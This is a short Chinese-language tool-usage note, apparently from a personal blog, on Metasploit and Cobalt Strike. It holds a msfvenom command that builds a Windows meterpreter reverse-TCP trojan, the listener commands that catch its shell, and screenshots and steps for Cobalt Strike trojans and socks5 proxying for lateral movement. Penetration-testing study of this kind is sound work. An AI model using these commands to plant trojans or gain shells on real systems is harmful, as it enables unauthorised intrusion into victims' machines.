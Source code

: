 ```yaml
---
title: msf与cs的运用
date: 2023-09-08 19:46:49
tags:
- 工具使用
categories:
- 工具使用
---
```




# MSF生成木马取得shell

 

## 生成木马

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.116 lport=4545 -f exe -o 456.exe
```

> 使用`msfvenom`
>
>  -p 为 paylaod 
>
>  -f 为指定生成为exe文件
>
>  -o 为指定文件名字



## msf开启监听端口

```
msfconsole					//进入模块
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.116
set lport 4545
run
```

![image-20230908204405066](../资源文件/图片/image-20230908204405066.png)

> 进入后输入`shell`可进入终端



# CS生成木马取得shell和内网横向代理



## 生成木马取得shell

![image-20230909161000325](../资源文件/图片/image-20230909161000325.png)

![image-20230909161402504](../资源文件/图片/image-20230909161402504.png)

> 选择好监听器生成即可，目标点击就上线（目标能访问到服务端）



## 内网横行代理

![image-20230909165148827](../资源文件/图片/image-20230909165148827.png)

![image-20230909165203180](../资源文件/图片/image-20230909165203180.png)

选择socks5，然后开启

在cs的服务端，编辑 `vim /etc/proxychains.conf`,在文末添加socks5代理服务器，且相对应的端口

![image-20230909165510992](../资源文件/图片/image-20230909165510992.png)

> 然后即可用proxychains代理各种kali的工具运行

![image-20230909165551936](../资源文件/图片/image-20230909165551936.png)



# cs与msf联动



